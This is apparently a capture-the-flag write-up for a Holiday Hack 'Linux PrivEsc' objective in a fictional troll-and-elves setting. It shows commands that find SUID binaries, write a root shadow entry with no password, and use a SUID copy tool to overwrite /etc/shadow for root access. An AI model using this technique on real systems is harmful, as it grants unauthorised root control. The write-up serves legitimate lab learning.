

# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective 6 URL](https://.../)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.https://payatu.com/blog/a-guide-to-linux-privilege-escalation/

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument..


## Solution

After grabbing console access to terminal we started exploring interesting files on filesystem

```
find / -perm -u+s 2>/dev/null
```

And we found interesting binary **/usr/bin/simplecopy**

Next we checked directory /etc/shadow for its structure. Create simple sh2 file with root without password.

```
echo -e "root::19634:0:99999:7:::" > sh2
```

Next using simplecopy binary we modified /etc/shadow file and su didnt' require any password so we could freely use root account

```
 simplecopy sh2 /etc/shadow
 su

```

### Images




!!! success "Answer"
    "santa"

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.
